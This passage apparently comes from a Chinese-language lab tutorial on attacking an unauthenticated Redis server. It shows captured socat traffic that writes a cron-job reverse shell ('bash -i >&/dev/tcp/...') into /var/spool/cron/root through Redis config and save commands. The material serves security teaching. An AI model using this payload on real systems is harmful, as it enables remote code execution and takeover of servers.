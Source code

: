 ![image-20220408104147983](../../../images/image-20220408104147983.png)

#### 7.4.7 获取攻击流量内容

回到socat终端，将流量内容复制

```
> 2022/04/08 10:35:41.854951  length=18 from=0 to=17
*1\r
$8\r
flushall\r
< 2022/04/08 10:35:41.916498  length=5 from=0 to=4
+OK\r
> 2022/04/08 10:35:52.438603  length=92 from=0 to=91
*3\r
$3\r
set\r
$7\r
farmsec\r
$59\r


*/1 * * * * bash -i >&/dev/tcp/192.168.10.96/3333 0>&1


\r
< 2022/04/08 10:35:52.439439  length=5 from=0 to=4
+OK\r
> 2022/04/08 10:36:02.585302  length=57 from=0 to=56
*4\r
$6\r
config\r
$3\r
set\r
$3\r
dir\r
$16\r
/var/spool/cron/\r
< 2022/04/08 10:36:02.586108  length=5 from=0 to=4
+OK\r
> 2022/04/08 10:36:08.471573  length=52 from=0 to=51
*4\r
$6\r
config\r
$3\r
set\r
$10\r
dbfilename\r
$4\r
root\r
< 2022/04/08 10:36:08.472274  length=5 from=0 to=4
+OK\r
> 2022/04/08 10:41:22.008184  length=14 from=0 to=13
*1\r
$4\r
save\r
< 2022/04/08 10:41:22.014742  length=5 from=0 to=4
+OK\r

```
